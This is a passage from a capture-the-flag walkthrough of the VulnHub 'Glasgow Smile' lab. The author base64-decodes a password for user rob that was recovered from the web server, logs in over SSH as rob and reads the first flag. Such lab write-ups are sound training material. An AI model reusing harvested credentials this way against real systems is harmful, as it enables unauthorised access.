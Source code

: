 <center><br>
<img src="/assets/img/uploads/glasgow-smile/mysql.png">
</center>

Next, I decoded the password for user <b>rob</b> and got the password:<br><b>???AllIHaveAreNegativeThoughts???</b>

```r
www-data@glasgowsmile:/var/www/joomla2$ echo -n Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ | base64 -d
???AllIHaveAreNegativeThoughts???
```
Now we can use these credentials to login via ssh as user <b>rob</b> and read our first flag.

```r
root@kali:~/vulnhub/glasgowSmile# ssh rob@joker

The authenticity of host 'joker (192.168.1.8)' cant be established.
ECDSA key fingerprint is SHA256:05TCY2Nw37yPYIluFAe7y4vTCupftlAxY+jXZsTJu88.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'joker,192.168.1.8' (ECDSA) to the list of known hosts.
rob@jokers password: 
Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jun 16 13:24:25 2020 from 192.168.10.172

rob@glasgowsmile:~$ id
uid=1000(rob) gid=1000(rob) groups=1000(rob),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

rob@glasgowsmile:~$ cat user.txt
JKR[f5bb11acbb957915e421d62e7253d27a]
```
